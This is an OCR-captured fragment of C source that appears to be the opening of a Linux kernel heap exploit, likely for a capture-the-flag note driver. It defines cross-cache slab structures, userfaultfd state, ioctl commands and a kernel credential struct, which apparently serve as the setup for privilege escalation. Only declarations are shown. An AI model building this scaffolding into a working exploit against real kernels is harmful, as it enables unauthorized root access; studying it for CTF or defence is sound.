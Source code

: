 ```c 
    CC_EMPTY_VICTIM_PAGE,
    CC_OVERFLOW_PARTIAL_LIST
};

struct cross_cache
{
    uint32_t objs_per_slab;
    uint32_t cpu_partial;
    struct
    {
        int64_t *overflow_objs;
        int64_t *pre_victim_objs;
        int64_t *post_victim_objs;
    };
    uint8_t phase;
    int (*allocate)();
    int (*free)(int64_t);
};

#define ARRAY_SIZE(a) (sizeof(a) / sizeof((a)[0]))
// n must be a power of 2
#define ALIGN(x, n) ((x) + (-(x) & ((n)-1)))

#define CLONE_FLAGS CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND

typedef uint8_t u8;
typedef uint16_t u16;
typedef uint32_t u32;
typedef uint64_t u64;

#define IOC_MAGIC '\xFF'

#define IO_ADD _IOWR(IOC_MAGIC, 0, struct ioctl_arg)
#define IO_EDIT _IOWR(IOC_MAGIC, 1, struct ioctl_arg)
#define IO_SHOW _IOWR(IOC_MAGIC, 2, struct ioctl_arg)
#define IO_DEL _IOWR(IOC_MAGIC, 3, struct ioctl_arg)

struct ioctl_arg
{
    uint64_t idx;
    uint64_t size;
    uint64_t addr;
};

static noreturn void fatal(const char *msg)
{
    perror(msg);
    exit(EXIT_FAILURE);
}

static int userfault_fd;
static void *userfault_page;

static pthread_t userfault_pthread;

static int note_fd;

static struct cross_cache *kmalloc96_cc;
size_t n_queues;

struct kernel_cred {
    uint32_t usage;
    uint32_t uid;
```